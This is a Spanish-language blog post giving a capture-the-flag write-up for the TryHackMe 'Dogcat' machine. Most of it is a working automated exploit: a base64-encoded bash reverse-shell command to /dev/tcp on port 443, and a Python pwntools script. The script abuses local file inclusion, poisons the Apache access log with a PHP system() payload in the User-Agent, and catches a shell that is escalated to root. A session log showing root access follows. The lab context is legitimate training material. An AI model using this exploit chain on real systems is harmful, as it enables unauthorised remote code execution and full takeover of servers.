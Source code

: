 ```yaml
---
layout: single
title: Dogcat (AutoPWM) - Try Hack Me
excerpt: "En esta máquina se abusa de un local file inclusion para efectuar un log poisoning logrando RCE luego de modificar el user agent inyectando instrucciones maliciosas, pero en este post te muestro un pequeño script autopwm hecho en python, el cual nos automatiza la intrusión y escalada de privilegios para convertirnos en root"
date: 2021-08-29
classes: wide
header:
  teaser: /assets/images/thm-autopwm-dogcat/Dogcat.png
  teaser_home_page: true
  icon: /assets/images/tryhackme.png
categories:
  - tryhackme
  - autopwm
  - scripting
tags:
  - python scripting
  - autopwm
  - web
  - lfi
  - log poisoning
  - user agent
---
```


<p align="center">
<img src="/assets/images/thm-autopwm-dogcat/img_header.png">
</p>

Esta es una máquina de dificultad media bastante sencilla, así que quise hacer un script autopwm que automatizara tanto la intrusión como la escalada de privilegios

Antes de usarlo se debe de ejecutar el siguite comando, para luego introducir el otput en el script:

```bash
~$> echo "/bin/bash -c 'bash -i >& /dev/tcp/[TU_IP]/443 0>&1'" | base64
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuMjQyLjIxNy80NDMgMD4mMScK
```

Se modifica el payload y la url:

```python
#!/usr/bin/python3

import signal, time, os
from pwn import *

def def_handler(sig, frame):
	print("\n[!] Exiting...\n")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

lport = 443
payload = 'echo "[CADENA_EN_BASE64]" | base64 -d | bash' # <- CHANGE THIS
url = 'http://[MACHINE_IP]/?view=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=%s' % (payload)

def makeRequest():
	headers = {
	    'User-Agent': '<?php system($_GET[\'cmd\']); ?>'
	}

	r = requests.get(url, headers=headers)

if __name__ == '__main__':
	try:
		log.info("Gaining shell as www-data user")
		time.sleep(1)
		threading.Thread(target=makeRequest).start()
	except Exception as e:
		log.failure(str(e))

	shell = listen(lport, timeout=20).wait_for_connection()

	if shell.sock is None:
		log.failure("Cudn't connect")
	else:
		log.info("Obteining root")
		time.sleep(1)
		shell.sendline("export TERM=xterm; export SHELL=bash; /usr/bin/env /bin/bash -p")
		shell.interactive()

```

Y una vez ejecutado el script obtenemos shell como root:

```bash
~$>./Dogcat-AutoPWM.py
```
```bash
[*] Gaining shell as www-data user
[+] Trying to bind to :: on port 443: Done
[+] Waiting for connections on :::443: Got connection from ::ffff:10.10.52.7 on port 35786
[*] Obteining root
[*] Switching to interactive mode
$
```
```bash
$ whoami
root
```
